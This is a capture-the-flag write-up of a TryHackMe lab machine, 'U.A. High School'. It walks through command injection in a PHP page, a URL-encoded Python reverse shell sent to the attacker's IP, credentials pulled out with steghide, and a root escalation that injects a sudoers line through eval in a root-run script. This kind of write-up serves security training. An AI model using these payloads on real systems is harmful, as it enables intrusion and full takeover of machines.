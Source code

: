 # TryHackMe-U.A.-High-School-
[![Solved](https://img.shields.io/badge/Solved%20By-Jull3Hax0r-blue?style=flat-square&logo=gnu-bash)](https://tryhackme.com/p/Jull3)
[![TryHackMe Room](https://img.shields.io/badge/TryHackMe-UA%20Hig%20School-success?style=flat-square&logo=tryhackme)](https://tryhackme.com/room/yueiua)
# 🦸‍♂️ TryHackMe: U.A. Superhero Academy – Writeup
Category: Shell/Enumeration/Priv-Esc
Difficulty: Beginner → Intermediate
Target IP: MACHINE_IP

> **Join us in the mission to protect the digital world of superheroes!**  
> U.A., the most renowned Superhero Academy, is looking for a superhero to test the security of our new site.  
> Our site is a reflection of our school values, designed by our engineers with incredible Quirks.  
> We have gone to great lengths to create a secure platform that reflects the exceptional education of U.A.

---

## 🛰️ Target

**IP:** `<MACHINE_IP>`

---

## 🔍 Initial Recon

**Nmap:**
```
Starting Nmap 7.95 ( https://nmap.org ) at 2025-05-18 11:16 CEST
Nmap scan report for 10.10.16.154
Host is up (0.035s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

---

## 🕵️ Web Enumeration & Exploitation

After enumeration, I found `/assets/index.php` vulnerable to **command injection**!

```
http://<MACHINE_IP>/assets/index.php?cmd=whoami
```
> The response is base64-encoded:  
> `d3d3LWRhdGEK` → `www-data`

---

## 🐚 Getting a Shell

I started a listener:
```
nc -lvnp 4444
```

Then sent a **URL-encoded Python reverse shell**:
```
http://<MACHINE_IP>/assets/index.php?cmd=python3%20-c%20%27import%20socket%2Csubprocess%2Cos%3Bs%3Dsocket.socket%28socket.AF_INET%2Csocket.SOCK_STREAM%29%3Bs.connect%28%28%2210.21.132.240%22%2C4444%29%29%3Bos.dup2%28s.fileno%28%29%2C0%29%3B%20os.dup2%28s.fileno%28%29%2C1%29%3Bos.dup2%28s.fileno%28%29%2C2%29%3Bimport%20pty%3B%20pty.spawn%28%22%2Fbin%2Fbash%22%29%27
```

*Shell received as* **www-data!**

---

## 🗝️ Loot & Lateral Movement

In `/var/www/Hidden_Content/passphrase.txt` I found:
```
QWxsbWlXXXXXXXXXXXXFdmVyISEhCg==
```
Decoded from base64:  
**XXXXXXXXXXXXXX** (Saved for later...)

In `/var/html/assets/images/` I found suspicious images.  
**oneforall.jpg** was corrupted; changing the extension wasn’t enough.

**Fixed the header** using:
```
printf '\xFF\xD8\xFF\xE0\x00\x10\x4A\x46\x49\x46\x00\x01' | dd of=oneforall.jpg bs=1 count=12 conv=notrunc
```
<img src="https://jull3.se/extimg/school/oneforall.jpg" alt="oneforall.jpg">

Then extracted hidden data:
```
steghide extract -sf oneforall.jpg
```
As a passphrase I used what was in the file /var/www/Hidden_Content/passphrase.txt

<img src="https://jull3.se/extimg/school/steg.png" alt="steg.png">

Got `creds.txt`:
```
Hi Deku, this is the only way I've found to give you your account credentials, as soon as you have them, delete this file:
deku:OneXXxXXXXXXXXXXXonXXXX1/A   
```

Now I could **switch user** to `deku`!

<img src="https://jull3.se/extimg/school/deku.png" alt="deku.png">
---

## ⚡ Privilege Escalation

Check sudo privileges:
```
deku@myheroacademia:~$ sudo -l
Matching Defaults entries for deku on myheroacademia:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User deku may run the following commands on myheroacademia:
    (ALL) /opt/NewComponent/feedback.sh
```

Inspected the script:
```bash
#!/bin/bash
echo "Hello, Welcome to the Report Form"
echo "This is a way to report various problems"
echo "   Developed by the Technical Department of U.A."
echo "Enter your feedback:"
read feedback

if [[ "$feedback" != *"\"* && "$feedback" != *")"* && "$feedback" != *"\$("* && "$feedback" != *"|"* && "$feedback" != *"&"* && "$feedback" != *";"* && "$feedback" != *"?"* && "$feedback" != *"!"* && "$feedback" != *"\\"* ]]; then
    echo "It is This:"
    eval "echo $feedback"
    echo "$feedback" >> /var/log/feedback.txt
    echo "Feedback successfully saved."
else
    echo "Invalid input. Please provide a valid input."
fi
```

---

### 🛡️ Why feedback.sh Allows Privilege Escalation

The `feedback.sh` script is extremely dangerous from a security perspective because it executes as **root** but allows any user (in this case, `deku`) to supply arbitrary feedback text. This input is then passed directly to `eval`, which interprets and runs the input as shell code:

```bash
eval "echo $feedback"
```

Additionally, the script appends the feedback to a log file as root:

```bash
echo "$feedback" >> /var/log/feedback.txt
```

This combination means that if you can bypass or avoid the blacklist (or if your command does not contain any blacklisted characters), you can inject a payload that performs *any action as root*, such as modifying system files, adding users, or changing sudoers.

**In this challenge, I simply injected:**
```
deku ALL=NOPASSWD: ALL >> /etc/sudoers
```
This line, when executed as root, grants `deku` passwordless sudo privileges for all commands.

**Result:**  
Afterwards, I could run `sudo /bin/bash` as `deku` and instantly become root.

**This is a textbook example of the dangers of using `eval` with user input and running scripts with elevated privileges.** Never trust user input, especially as root!

---

After entering the payload:
```
deku ALL=NOPASSWD: ALL >> /etc/sudoers
```

I could then do:
```
sudo /bin/bash
```
Boom – **root shell**!

<img src="https://jull3.se/extimg/school/root.png" alt="root.png">

---

## 🏆 Root Flag

```
cat /root/root.txt
```
```
THM{XXXXXXXXXXXXXXXXX}
```

---

*Mission complete! UA is now more secure, and I am the Number 1 Hero!*

(Insert screenshot links here if you want!)

---
